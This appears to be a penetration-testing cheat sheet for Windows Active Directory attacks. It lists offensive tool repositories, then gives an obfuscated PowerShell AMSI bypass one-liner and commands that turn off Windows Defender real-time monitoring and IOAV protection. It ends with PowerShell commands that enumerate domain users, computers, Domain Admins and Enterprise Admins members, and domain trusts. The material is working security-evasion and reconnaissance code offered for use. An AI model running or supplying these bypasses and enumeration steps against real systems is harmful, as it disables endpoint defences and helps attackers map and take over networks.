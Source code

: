 ***

## Extra Tools

1. https://github.com/61106960/adPEAS
2. https://github.com/phackt/Invoke-Recon
3. https://github.com/itm4n/PrivescCheck
4. https://github.com/hausec/Bloodhound-Custom-Queries
5. https://github.com/sense-of-security/ADRecon/tree/master
6. https://github.com/calebstewart/bypass-clm

***

## Command master

> Check the misc notes master

## 1. Bypass defender

```powershell
# AMSI
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

# Bypass real time monitoring ( admin privs )
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

## 2. Domain Enumeration

```powershell
# Users
Get-NetUser
# To list a specific property of all the users, say, samaccountname
Get-ADUser -Filter * | Select -ExpandProperty samaccountname

# computers
Get-NetComputer
# Now, to enumerate member computers in the domain we can use Get-ADComputer
Get-ADComputer –Filter * | select –expand name

# domain admin
Get-NetDomain
# To see attributes of the Domain Admins group
Get-ADGroup -Identity 'Domain Admins' -Properties *

# See Attributes of the Domain Admins Group
Get-NetGroup -GroupName "Domain Admins" -FullData

# To enumerate members of the Domain Admins group
Get-ADGroupMember -Identity 'Domain Admins'
# Get Members of the Domain Admins group
Get-NetGroupMember -GroupName "Domain Admins"

# To enumerate members of the Enterprise Admins group:
Get-ADGroupMember -Identity 'Enterprise Admins' -Server techcorp.local

# Forest
Get-NetDomainTrust
```
